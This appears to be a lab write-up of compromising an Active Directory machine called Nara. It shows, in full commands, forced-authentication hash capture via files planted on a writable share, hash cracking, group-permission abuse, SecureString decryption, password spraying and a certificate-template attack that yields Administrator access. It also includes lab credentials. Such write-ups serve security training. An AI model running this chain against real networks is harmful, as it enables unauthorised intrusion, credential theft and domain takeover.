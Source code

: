 #Pwned #Certificate #Phishing #Bloodhound
```IP
192.168.249.30
```
# Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.249.30 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION 
53/tcp    open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-12-12 14:42:10Z)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn      
389/tcp   open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 125
464/tcp   open  kpasswd5?     syn-ack ttl 125
593/tcp   open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: nara-security.com0., Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
5985/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 125 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49684/tcp open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49707/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49738/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: NARA; OS: Windows; CPE: cpe:/o:microsoft:windows

```
## SMB
We can start by enumerating samba shares with the following command:
```bash
nxc smb 192.168.249.30 -u 'guest' -p '' --shares
```

It seems like we can access and write some directories with:
```bash
smbclient //192.168.249.30/nara -U nara-security.com\guest
```

In nara share we find important.txt. We can deduct that some kind of phishing attack may work. I first tried with .exe or .odt to no avail.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163917.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163939.png?raw=true)

# Exploitation
With the following tool (hashgrab.py) we can force authentication to our machine if a user clicks on any of our generated files:
https://github.com/xct/hashgrab

```
python hashgrab/hashgrab.py 192.168.45.189 hash
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170454.png?raw=true)

Now we can upload it to smb Documents folder and upon setting responder we will receive hash shown below:
```
sudo responder -I tun0
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170708.png?raw=true)

It is possible to crack it with hashcat with the following command:
```
hashcat -m 5600 files/tracy.hash /usr/share/wordlists/rockyou.txt --force
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212171126.png?raw=true)

Above we have the password cracked. With nxc and the new password we can see some hits on rdp and ldap but it doesn't say pwned, therefore we do not have write permissions on those services.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212172000.png?raw=true)

Eventhough we can not access, it is possible now to run bloodhound:
```
bloodhound-python -d nara-security.com -c all -u tracy.white -p 'zqwj041FGX' -ns 192.168.249.30 --zip
```

By investigating the output, we find out that we have generic all over remote access grouo.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175735.png?raw=true)

This means that we have permissions over that group, so we could add any user to it. So by executing the following commandit should be possible to add tracy.white to group "remote access" group:
```bash
net rpc group addmem "Remote Access" "tracy.white" -U "nara-security.com"/"tracy.white"%"zqwj041FGX" -S "nara-security.com"
```

And now it should be possible to access remotely as tracy.white with evil-winrm:

```bash
evil-winrm -i 192.168.249.30 -u tracy.white -p 'zqwj041FGX'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175643.png?raw=true)

# PrivEsc

## Manual

We can find right away in the documents directory the following suspicious file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212180025.png?raw=true)

When prompting its contents, they seem like a hash. Let's now think as a user. The user encrypted here something, likely a password. Something he could have googled is "How to encrypt a password in windows powershell?"
If we google exactly that we get some answers. Example given:
https://medium.com/@josephjhinshaw/powershell-encryption-38a044db3942
Which have some powershell commands as `ConvertTo-SecureString`.

So the question we should google would be "How to decrypt powershell secure string?"
StackOverflow will give us the answer:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212182706.png?raw=true)

https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password

We asume then that this is a standart ciphered string obtained with the convertfrom-securestring cmdlet. Following the commands below we can decrypt this encrypted string:

```
$credentials = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b'
```
```
$secure = convertTo-securestring -string $credentials
```
```
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($secure)
```
```
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
```
```
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
```
```
$result
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213091156.png?raw=true)

When executed, we obtain the following string:
```
hHO_S9gff7ehXw
```
We now spray the password. But first we need a complete user list. I've done this by bruteforcing the RIDs with nxc and tracy.white credentials:

```
nxc smb 192.168.132.30 -u 'tracy.white' -p 'zqwj041FGX' --rid-brute 3000 > users2.txt
```

After some data cleaning, we have our clean user list and we can use it to spray the password effectively:

```
nxc winrm 192.168.132.30 -u users2.txt -p 'hHO_S9gff7ehXw'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213092921.png?raw=true)

We have pwned Jodie.Summers. We can access as her user:
```
evil-winrm -i 192.168.132.30 -u jodie.summers -p 'hHO_S9gff7ehXw'
```
After some enumeration, we observe that jodie.summers belongs to Enrollment group:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131507.png?raw=true)

If recall correctly, in the nmap scan we saw that this machine is also a Certificate Authority (CA).

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131213.png?raw=true)

We can check for CA related vulnerabilities with certipy-ad tool as shown below:
```
certipy-ad find -vulnerable -stdout -u Jodie.Summers@192.168.132.30 -p 'hHO_S9gff7ehXw'
```
In the official github webpage we can find how to leverage these attacks:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131321.png?raw=true)

The tool indicates that Enrollment group has dangerous permissions. It allows its users to request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN
```bash
certipy-ad req -username Jodie.Summers@192.168.132.30 -password hHO_S9gff7ehXw -ca NARA-CA -target nara-security.com -template NaraUser -upn Administrator@nara-security.com
```
With this new certificate and private key we can retrieve an NT hash for Administrator with:
```bash
certipy-ad auth -pfx administrator_dc.pfx -dc-ip 192.168.132.30
```

And with that hash we can get remote access with evil-winrm! Pwned!

